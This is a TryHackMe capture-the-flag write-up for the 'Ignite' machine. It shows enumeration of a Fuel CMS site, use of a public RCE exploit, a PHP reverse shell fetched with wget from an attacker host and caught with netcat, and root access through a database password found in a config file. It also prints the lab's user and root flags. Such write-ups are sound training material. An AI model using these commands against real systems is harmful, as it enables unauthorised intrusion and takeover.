






# Ignite

> Platform: TryHackMe
>
> Created by: [DarkStar7471](https://tryhackme.com/p/DarkStar7471), built by [Paradox](https://tryhackme.com/p/Paradox).
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA ignitescan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.28s latency).
Scanned at 2025-08-04 18:39:19 +08 for 18s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's a port 80 open.


Looks like it is a **Fuel CMS version 1.4** page. Now try to **enumerate more the directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/@                    (Status: 400) [Size: 1134]
/0                    (Status: 200) [Size: 16595]
/assets               (Status: 301) [Size: 313] [--> http://<TARGET-IP>/assets/]
/home                 (Status: 200) [Size: 16595]
/index.php            (Status: 200) [Size: 16595]
/index                (Status: 200) [Size: 16595]
/lost+found           (Status: 400) [Size: 1134]
/offline              (Status: 200) [Size: 70]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the **/robots.txt** page, we found out that there is a **hidden directory** which are the **/fuel** directory.



Looks like it is a **login page**, which we **may** be use for **exploit**



## Exploitation

Try to **search the exploit for the Fuel CMS**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ searchsploit fuel cms     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                 | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                 | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                 | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)       | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenti | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)         | php/webapps/50884.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

From here, I used the **RCE (3) exploit**. First, let's **copy the exploit** to our directory:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/50477.py /PATH/TO/WORKING/DIRECTORY/fuelcmsexploit.py
```

Now, to run the **exploit**, we need to **add our url** here:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ python3 fuelcmsexploit.py  
usage: python3 fuelcmsexploit.py -u <url>
```

I used the **normal url** here:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ python3 fuelcmsexploit.py -u http://<TARGET-IP>/
[+]Connecting...
Enter Command $
```

Nice, now let's **list the available user** in the server:
```
Enter Command $ls -la /home
systemtotal 12
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data
```

Try to list the file in the **www-data** directory and read the **"flag.txt"**:
```
Enter Command $ls -la /home/www-data
systemtotal 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt


Enter Command $cat /home/www-data/flag.txt
system<USER-FLAG>
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>6470e394cbf6dab6a91682cc8585059b</b>
</details><br>

Nice! Now I think **for better running command in the server**, I **upload a reverse shell** script to the server then connect using netcat as it is easy for me. For the reverse shell script to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php phpreverseshell.php

$ nano phpreverseshell.php
```


Then, **run a web server using Python**:
```
┌──(kali㉿kali)-[~/upload]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Try to **get the script using wget**:
```
Enter Command $wget http://<ATTACKER-IP>/phpreverseshell.php
```

Now, **run the netcat listener** in our machine, then **search for our script in the browser**:
```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
```



Now, it is **easier for running command** here:



## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
$ sudo -l
sudo: no tty present and no askpass program specified
```

Okay, try to **find files with weird SUID**:
```
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /usr/sbin/pppd
-rwsr-xr-x 1 root root 18664 Mar 17  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 10584 Oct 25  2018 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
```

I also have tried to **run linpeas**:
```
$ ./linpeas.sh
.
.
.
╔══════════╣ Analyzing Backup Manager Files (limit 70)
                                                                                             
-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
        'password' => 'mememe',
        'database' => 'fuel_schema',
.
.
.
```

Try to **view the content** of the file:
```
$ cat /var/www/html/fuel/application/config/database.php
.
.
.
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
.
.
.
```

Looks like we now have the **root credentials**, but before switching to root user, let's **spawn a better shell** first, then **change user to root**:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$ su -
su -
Password: <ROOT-PASSWORD>

root@ubuntu:~#
```

Read the **root flag**:



<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>b9bbcb33e11b80be759c4e844862482d</b>
</details><br>